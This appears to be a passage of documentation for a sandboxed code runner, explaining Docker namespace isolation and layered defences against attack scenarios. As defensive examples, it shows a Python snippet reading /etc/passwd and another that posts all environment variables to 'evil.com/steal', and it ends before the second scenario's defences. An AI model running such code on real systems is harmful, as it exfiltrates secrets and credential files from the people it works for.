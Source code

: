 ### Container Escape Prevention

**Namespace Isolation:**
Docker automatically provides namespace isolation:

```
Host vs Container View:

Host PID Namespace:        Container PID Namespace:
├── PID 1: systemd        ├── PID 1: python code.py
├── PID 1234: docker      ├── PID 2: (nothing else visible)
├── PID 5678: user code   └── (can't see host processes)
└── PID 9999: other app
```

**Container can't see:**
- Host processes
- Other containers
- Host filesystem
- Host network interfaces
- Host users and groups

## 🚨 Attack Scenarios and Defenses

### Scenario 1: System File Access

**Attack Attempt:**
```python
# Attacker tries to read sensitive files
with open("/etc/passwd", "r") as f:
    passwords = f.read()
    print(passwords)
```

**Defense Layers:**
1. **Container isolation**: `/etc/passwd` in container is different from host
2. **Readonly filesystem**: Even container's `/etc/passwd` might be readonly
3. **User permissions**: `nobody` user can't read sensitive files
4. **No network**: Can't exfiltrate data even if readable

**Result:** ✅ Blocked at multiple layers

### Scenario 2: Network Exfiltration

**Attack Attempt:**
```python
import requests
import os

# Try to steal environment variables
env_data = dict(os.environ)
requests.post("http://evil.com/steal", json=env_data)
```
